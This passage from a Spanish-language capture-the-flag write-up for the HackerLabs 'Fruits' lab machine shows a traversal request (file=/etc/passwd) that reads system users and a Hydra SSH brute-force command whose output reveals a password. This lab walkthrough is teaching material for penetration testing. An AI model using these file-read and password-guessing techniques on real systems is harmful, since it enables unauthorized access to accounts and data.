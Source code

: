 ```bash
===============================================================
Finished
===============================================================
                                                                
```
En este nuevo intento con otro diccionario pudimos listar algo interesante, `/fruits.php`.

### 3.4 Consulta a /fruits.php <a name="id3.4"></a>

Vamos a revisar el contenido de /fruits.php.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Fruits/4uno.png?raw=true "consulta web")

No se observa contenido, pero vamos a darle una revisada más detallada. Para esto, nos
ayudaremos con BurpSuite.

### 3.5 Revisión con BurpSuite <a name="id3.5"></a>

Capturamos la consulta GET de /fruits.php para poder modificarlo con la opción `repeater`.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Fruits/5.png?raw=true "consulta web")

Intentamos varias formas de listar resultados con path traversal pero la que nos dio un resultado
fue `file=/etc/passwd`.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Fruits/6.png?raw=true "consulta web")

Con este resultado podemos observar los usuarios que tiene el objetivo, el que inmediatamente
nos llama la atención es `bananaman`.

![imagen.](https://github.com/V4lcyfer/blog-images/blob/main/HackerLabs/Fruits/7.png?raw=true "consulta web")

Podríamos intentar utilizar fuerza bruta para obtener la contraseña de usuario y conectarnos al
servicio SSH previamente detectado.

## 4. Conseguir Acceso <a name="id4"></a>

### 4.1 Fuerza Bruta con Hydra <a name="id4.1"></a>

Utilizaremos Hydra para intentar obtener la contraseña de ’bananaman’. Para este caso, utilizaremos
el diccionario más conocido, Rockyou.

```bash
┌──(root㉿V4lcyfer)-[/home/kali/Downloads]
└─# hydra -t 64 -l bananaman -P rockyou.txt ssh://192.168.1.12 -I
Hydra v9.5 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2024-05-12 00:56:47
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 64 tasks per 1 server, overall 64 tasks, 14344398 login tries (l:1/p:14344398), ~224132 tries per task
[DATA] attacking ssh://192.168.1.12:22/
[22][ssh] host: 192.168.1.12   login: bananaman   password: celtic
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 24 final worker threads did not complete until end.
[ERROR] 24 targets did not resolve or could not be connected
[ERROR] 0 target did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2024-05-12 00:57:44
```
